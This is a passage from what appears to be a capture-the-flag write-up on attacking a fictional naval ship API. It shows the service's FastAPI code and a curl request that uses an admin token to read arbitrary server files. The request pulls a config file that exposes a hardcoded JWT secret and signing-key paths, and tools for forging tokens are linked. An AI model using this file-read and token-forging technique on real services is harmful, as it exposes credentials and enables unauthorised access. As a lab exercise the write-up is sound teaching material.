 ```python
    API v1 Endpoints
    """
    return {"endpoints": ["user", "admin"]}


@app.get("/docs", summary="Documentation", include_in_schema=False)
async def get_documentation(
        current_user: User = Depends(deps.parse_token)
):
    return get_swagger_ui_html(openapi_url="/openapi.json", title="Naval ship API docs")


@app.get("/openapi.json", include_in_schema=False)
async def openapi(
        current_user: User = Depends(deps.parse_token)
):
    return get_openapi(title="Naval Ship API", version="1.0", routes=app.routes)


app.include_router(api_router, prefix=settings.API_V1_STR)
app.include_router(root_router)


def start():
    import uvicorn

    uvicorn.run(app, host="0.0.0.0", port=80, log_level="debug")


if __name__ == "__main__":
    import uvicorn

    uvicorn.run(app, host="0.0.0.0", port=80, log_level="debug")
```

The `from shipapi.appconfig.config import settings` part looks like it might contain some useful info, so let's check
`/app/shipapi/appconfig/config.py`.

```console
$ curl -s -H "Authorization: Bearer $admintoken" -H "Content-Type: application/json" -d '{"file":"/app/shipapi/appconfig/config.py"}' http://universal-ship-api.cns-jv.tcc/api/v1/admin/
file | jq -r .file
```

```python
from pydantic import AnyHttpUrl, BaseSettings, EmailStr, validator
from typing import List, Optional, Union

from enum import Enum


class Settings(BaseSettings):
    API_V1_STR: str = "/api/v1"

    JWT_RSA_KEY = open('shipapi/appconfig/jwtsigning.key').read()
    JWT_RSA_PUB = open('shipapi/appconfig/jwtsigning.pub').read()
    ALGORITHM: str = "RS384"
    #   We don't use symmetric cipher algo anymore
    JWT_SECRET: str = "TW!BMP9yVRiDEziTsekVoHZJFcXQgZf8"

    ACCESS_TOKEN_EXPIRE_MINUTES: int = 60 * 24 * 8
    CORS_ORIGINS: List[AnyHttpUrl] = []

    @validator("CORS_ORIGINS", pre=True)
```

[jwt_tool]: https://github.com/ticarpi/jwt_tool
[ModHeader]: https://chrome.google.com/webstore/detail/modheader-modify-http-hea/idgpnmonknjnojddfkpgkljpfnnfcklj